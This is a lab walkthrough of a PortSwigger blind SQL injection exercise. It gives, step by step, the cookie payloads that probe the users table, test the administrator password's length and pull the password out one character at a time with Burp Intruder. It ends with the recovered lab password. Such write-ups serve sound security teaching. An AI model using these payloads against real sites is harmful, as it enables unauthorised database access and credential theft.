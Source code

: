 ## Welcome, my friend. Today we will start the [12. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/a9a6c9ed-01ca-4b46-8fe9-698f8038558d)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/42553046-8670-4319-9208-d92394584abd)

### We discover this page and find category paramater.

![image](https://github.com/user-attachments/assets/041ed978-6f81-4260-8b38-318ef43c58a8)

![image](https://github.com/user-attachments/assets/40a32531-eea5-4c4f-b234-47d99db73b5d)

### We notice ```Cookie: TrackingId=ebVJ3SqBjZlzaJ5h;``` this param is vulnerable and inject following payload:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND '1'='1;
```

![image](https://github.com/user-attachments/assets/120cd618-a4c4-4398-a269-48a2db7cb86f)

### ```Welcome back``` printed so This is always ```true``` because ```1=1``` is true.
### Try ```1=2``` is false through following payload:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND '1'='2;
```

![image](https://github.com/user-attachments/assets/413177b2-fbf8-4b98-83ce-a4fed2032ba7)

### ```Welcome back``` doesn't printed so This is always ```false``` because ```1=2``` is false.

#### We know that there is one table is ```users``` and there are two columns ```username```,```password``` and there username is ```administrator``` and require his password.

### Ok We can using this payload to sure from exist ```users``` table:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT 'a' FROM users LIMIT 1)='a;
```

![image](https://github.com/user-attachments/assets/b5e818cc-d11e-4033-8a65-f81e6f9f6dc0)

### Ok , There is ```users``` table.

### Now We can using this payload to sure from exist ```administrator``` account:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT 'a' FROM users WHERE username='administrator')='a;
```

![image](https://github.com/user-attachments/assets/12e29cc6-ad37-4c1e-a27a-2a977b9141cc)

### Ok , There is ```administrator``` account.


## Now we start guess password of administrator but in first we want know how much letters of passwords:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a;
```

![image](https://github.com/user-attachments/assets/357d50f5-a58f-4ee5-afc3-92fa554cd1e2)

### password is greater than ```one``` letter.

### Try again then reach number of letters:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a;
```

![image](https://github.com/user-attachments/assets/ae5d3ad4-2350-438c-b051-43959b5ec3ff)


### Wow now we know that password is 20 letters.

### Let's find this letters:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a;
```

![image](https://github.com/user-attachments/assets/29465357-0f32-4079-a783-fb6381c10fd0)


### The first letter is ```a```, Let's find second letter:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a;
```

### But this prccess is take long time, So we using burp tool:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§;
```

![image](https://github.com/user-attachments/assets/3e41c7be-def5-4b14-8cf8-780f893c5bf9)

[Screencast from 09-04-2024 02:33:09 AM.webm](https://github.com/user-attachments/assets/adde843f-c99e-4354-99cf-3e3f17a8d1e3)


### the second letter is ```5```, We works again to find all letters susch as above video.

### We find password is ```a58ylg7b7eiupyrws0q8``` Let's login with administrator.

![image](https://github.com/user-attachments/assets/d01b0f3b-b158-4c1c-a2fb-16c43f61f784)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
